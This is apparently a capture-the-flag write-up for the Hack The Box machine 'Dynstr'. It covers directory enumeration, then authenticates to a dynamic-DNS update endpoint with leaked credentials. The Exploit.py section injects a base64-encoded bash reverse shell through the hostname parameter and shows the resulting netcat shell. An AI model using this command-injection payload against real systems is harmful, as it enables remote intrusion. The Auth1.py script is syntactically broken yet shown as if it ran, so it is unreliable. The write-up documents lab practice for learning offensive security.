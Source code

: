 # Enumeration-

\>>> Found Domain Name-

![[Pasted image 20210629130249.png]]

\>>> Some Creds-

![[Pasted image 20210629130045.png]]

User-dynadns
Pass-sndanyd

# Wfuzz-

```bash
root@napster:~/Documents/HTB/Dynstr# gobuster dir -u http://10.10.10.244/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -t 20 -o
 gobuster.txt                                                                                                                                                 
===============================================================                                                                                               
Gobuster v3.0.1                                                                                                                                               
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)                                                                                               
===============================================================                                                                                               
[+] Url:            http://10.10.10.244/                                                                                                                      
[+] Threads:        20                                                                                                                                        
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt                                                                  
[+] Status codes:   200,204,301,302,307,401,403                                                                                                               
[+] User Agent:     gobuster/3.0.1                                                                                                                            
[+] Timeout:        10s                                                                                                                                       
===============================================================                                                                                               
2021/06/29 12:29:58 Starting gobuster                                                                                                                         
===============================================================                                                                                               
/.html (Status: 403)                                                                                                                                          
/.htm (Status: 403)                                                                                                                                           
/assets (Status: 301)                                                                                                                                         
/.php (Status: 403)
/. (Status: 200)
/.htaccess (Status: 403)
/.phtml (Status: 403)
/.htc (Status: 403)
/.html_var_DE (Status: 403)
/server-status (Status: 403)
/.htpasswd (Status: 403)
/.html. (Status: 403)
/.html.html (Status: 403)
/.htpasswds (Status: 403)
/.htm. (Status: 403)
/.htmll (Status: 403)
/.phps (Status: 403)
/.html.old (Status: 403)
/.ht (Status: 403)
/.html.bak (Status: 403)
/.htm.htm (Status: 403)
/nic (Status: 301)
/.hta (Status: 403)
/.htgroup (Status: 403)
```

Found an odd Sub-Directory `/nic`

On visiting the web page it was empty,so used wfuzz again-

```bash
root@napster:~/Documents/HTB/Dynstr# gobuster dir -u http://10.10.10.244/nic -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -t 20
 -o gobuster1.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.244/nic
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/06/29 13:10:41 Starting gobuster
===============================================================
/.php (Status: 403)
/.html (Status: 403)
/.htm (Status: 403)
/update (Status: 200)
/. (Status: 200)
/.htaccess (Status: 403)
/.phtml (Status: 403)
/.htc (Status: 403)
/.html_var_DE (Status: 403)
/.htpasswd (Status: 403)
/.html. (Status: 403)
/.html.html (Status: 403)
/.htpasswds (Status: 403)
```

Got status 200 on `update`

Visiting the page-

![[Pasted image 20210629131330.png]]

We had credentials we found  earlier maybe we can authenticate with those credentials.

# Auth.py

\>>> Creating auth.py
```python
#!/usr/bin/python3

import requests
from requests.auth import HTTPBasicAuth

url = 'http://10.10.10.244/nic/update'

response = requests.get(url, auth=HTTPBasicAuth('dynadns', 'sndanyd'))
print (response.text)
```

\>>> Executing-

```bash
root@napster:~/Documents/HTB/Dynstr# python3 Auth.py
nochg 10.10.14.119
```

We got  `nochg` in response.

Just googling nochg we cam up with the following-

https://help.dyn.com/remote-access-api/return-codes/

#### No Change Updates-

A `nochg` indicates a successful update but the IP address or other settings have not changed.

On further Enumeration from the website we came up with this article-

https://help.dyn.com/remote-access-api/perform-update/

#### Update Parameter

|Field 	|								Description 						| Additional Info |
|-------|--------------------------------------------------------------------------|---------------|
|hostname |Comma separated list of hostnames that you wish to update(up to 20 hostnames per request).|Example:`hostname=test.dyndns.org,customtest.dyndns.org`

#### Update Complete/Good Update-

I have to pass two parameter atleast to perform update i.e the hostname and myip so let's try it.  Again going back to website we know we have few dynamic dns running so let's try and get it. 

# Auth1.py-

Updated python script to perform updates-
```python
#!/usr/bin/python3

import requests
from requests.auth import HTTPBasicAuth

url = 'http://10.10.10.244/nic/update'
params = {
        'my ip' : '10.10.14.119'
        'hostname' :  'test.no-ip.htb'
response = requests.get(url, auth=HTTPBasicAuth('dynadns', 'sndanyd'))
print (response.text)
```


\>>> Executing-

```bash
root@napster:~/Documents/HTB/Dynstr# python3 Auth1.py
good 10.10.14.119
```

# Creating payload-

we got the good response so we can perform update now let's look at some parameters we can tamper.  
Looking through the above perform update article I can see one intresting thing that the update will get distributed to all the linked device so if we can inject the hostname we can get the possible RCE and I thought about injecting IP but it's is not possible as it will lead to validation problem as IP cannot have character so we can inject hostname and send payload as subdomain name but we cannot use special chars as it is not allowed as a domain name so we have base64 encode the payload and send the request.

\>>>Exploit.py
```python
#!/usr/bin/python3

import requests
from requests.auth import HTTPBasicAuth
from base64 import b64encode

url = 'http://10.10.10.244/nic/update'
payload = b'bash -i >& /dev/tcp/10.10.14.119/9001 0>&1'
final = b64encode(payload)
print ('{}'.format(final.decode()))
params = {
        'my ip' : '10.10.14.119',
        'hostname' : '`echo "{}" | base64 -d | bash`"dynadns.no-ip.htb"'.format(final.decode())
        }
response = requests.get(url, auth=HTTPBasicAuth('dynadns', 'sndanyd'),params=params)
print (response.text)
```

# Executing and Getting Shell-
\>>> Executing-
```bash
root@napster:~/Documents/HTB/Dynstr# python3 Exploit.py 
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTkvOTAwMSAwPiYx
```


\>>> Reverse Shell-

```bash
root@napster:~/Documents/HTB/Dynstr# nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.119] from (UNKNOWN) [10.10.10.244] 60764
bash: cannot set terminal process group (759): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dynstr:/var/www/html/nic$
```

![[Pasted image 20210630051739.png]]




